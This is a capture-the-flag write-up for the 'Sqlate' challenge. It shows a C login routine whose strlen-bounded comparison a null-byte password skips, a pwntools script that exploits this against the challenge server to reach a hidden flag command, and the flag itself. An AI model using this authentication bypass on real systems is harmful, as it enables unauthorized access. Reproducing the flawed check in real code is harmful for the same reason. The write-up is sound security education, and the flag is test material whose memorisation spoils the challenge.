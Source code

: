 # Sqlate Write-up

Challenge: Sqlate (50 points)
Category: Web/Binary

## Vulnerability

The vulnerability lies in `action_login()`:

```c
void action_login() {
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
    for (unsigned long i = 0; i < length && i < 512; i++) {
        if (line_buffer[i] != admin_password[i]) {
            printf("Wrong password!\n");
            return;
        }
    }
}
```

The login function compares characters one by one without verifying the full password length. When we input a null byte (`\x00`), `strlen()` returns 0, causing the comparison loop to be skipped entirely.

## Exploit

```python
from pwn import *

conn = remote('sqlate.chal.irisc.tf', 10000)

conn.recvuntil(b'> ')
conn.sendline(b'5')

conn.recvuntil(b'Password?')
conn.sendline(b'\x00')

conn.recvuntil(b'> ')
conn.sendline(b'7')

flag = conn.recvline()
print(flag.decode())

conn.close()
```

1. Send option 5 for login
2. Send null byte as password to bypass check
3. Use option 7 (hidden) to cat flag
4. Get flag

Flag: `irisctf{real_programmers_use_vim}`
